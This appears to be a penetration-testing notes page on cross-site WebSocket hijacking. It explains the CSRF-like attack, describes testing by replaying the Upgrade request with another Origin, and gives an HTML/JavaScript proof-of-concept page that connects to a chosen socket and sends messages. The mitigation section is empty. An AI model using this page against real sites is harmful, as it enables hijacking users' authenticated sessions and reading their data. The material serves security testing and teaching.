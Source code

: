 

The attack is kind of like a CSRF but with websockets, and you can always read the returning data. If you can change state over websockets then you can also perform CSRF attacks.




## How to test for it
The client make a request with the header:

```
Upgrade: websocket
```


Now try to redo the request, but with another origin. If that works then you will be able to perform the attack.

The authentication method has to be with a cookie. So that the browser automatically sends the cookie.

But remember that it is only an issue if you can perform state changing actions or leak secret data.


Change the wsUri in the javascript below. Enter the socket address of your choice. If you want to send some specific strings, change the doSend() parameter.

```html

<html>
  <meta charset="utf-8" />
  <title>WebSocket Test</title>
  <script language="javascript" type="text/javascript">

  var wsUri = "wss://socketaddresshere";
  var output;

  function init()
  {
    output = document.getElementById("output");
    testWebSocket();
  }

  function testWebSocket()
  {
    websocket = new WebSocket(wsUri);
    websocket.onopen = function(evt) { onOpen(evt) };
    websocket.onclose = function(evt) { onClose(evt) };
    websocket.onmessage = function(evt) { onMessage(evt) };
    websocket.onerror = function(evt) { onError(evt) };
  }

  function onOpen(evt)
  {
    writeToScreen("CONNECTED");
    doSend("WebSocket rocks");
  }

  function onClose(evt)
  {
    writeToScreen("DISCONNECTED");
  }

  function onMessage(evt)
  {
    writeToScreen('<span style="color: blue;">RESPONSE: ' + evt.data+'</span>');
  //  websocket.close();
  }

  function onError(evt)
  {
    writeToScreen('<span style="color: red;">ERROR:</span> ' + evt.data);
  }

  function doSend(message)
  {
    writeToScreen("SENT: " + message);
    websocket.send(message);
  }

  function writeToScreen(message)
  {
    var pre = document.createElement("p");
    pre.style.wordWrap = "break-word";
    pre.innerHTML = message;
    output.appendChild(pre);
  }

  window.addEventListener("load", init, false);

  </script>

<body>
  <h2>WebSocket Test</h2>

  <div id="output"></div>
</body>
  </html>

```

## How to mitigate it





## References
https://www.christian-schneider.net/CrossSiteWebSocketHijacking.html
